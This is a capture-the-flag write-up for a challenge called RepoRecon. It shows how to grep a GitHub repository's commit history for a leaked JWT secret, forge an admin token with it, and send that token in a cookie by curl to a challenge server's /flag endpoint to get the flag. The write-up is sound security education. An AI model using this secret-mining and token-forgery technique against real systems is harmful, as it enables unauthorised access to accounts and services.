![[RepoRecon]](/assets/images/RepoRecon.png)
Click `Explore our Code` to see maybe source code of this page. It direct me to GitHub repository https://github.com/mowzk/repo-recon. 
after a while I understood all repo. The website want me a `JWT` toekn that sign with `JWT_SECRET`(get from `.env` file in commits history) and the website take token via the cookie name `auth_token`. Let's find it in history commits. There are **5,005** commits. The best way is using git to clone  this repository to local machine and use `git` command to show all commits content and grep `JWT_SECRET` strings.
```bash
$ git clone https://github.com/mowzk/repo-recon.git
$ cd repo-recon
$ git log --patch | grep JWT_SECRET
-JWT_SECRET=18b471a7d39b001bf79f12ab952f1364
+JWT_SECRET=18b471a7d39b001bf79f12ab952f1364
+const JWT_SECRET = process.env.JWT_SECRET;
+      const token = jwt.sign({ username }, JWT_SECRET, { expiresIn: '1h' });
+        jwt.verify(token, JWT_SECRET);
```

**`JWT_SECRET=18b471a7d39b001bf79f12ab952f1364`**
Next, sign jwt cookie with the same command that the server use. `jwt.sign({ username }, JWT_SECRET, { expiresIn: '1h' });`(in `server.js` line 25). I use https://replit.com/ to run javascript.
![[RepoRecon1]](/assets/images/RepoRecon1.png)
JWT token: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjk4NzQ4MzU0LCJleHAiOjE2OTg3NTE5NTR9.MorjJqG-LCtHsUOv4ceb8gSnQoHbINwHSUCRao9nVdM`. 
Let's request to `/flag`(found in `server.js`) with the JWT token to get the flag
```bash
$ curl -b "auth_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjk4NzQ4MzU0LCJleHAiOjE2OTg3NTE5NTR9.MorjJqG-LCtHsUOv4ceb8gSnQoHbINwHSUCRao9nVdM" http://challenge.ctf.games:30736/flag
{"success":true,"flag":"flag{8ee442003863b85514585c598a6a628b}"}
```

>Flag: flag{8ee442003863b85514585c598a6a628b}
---
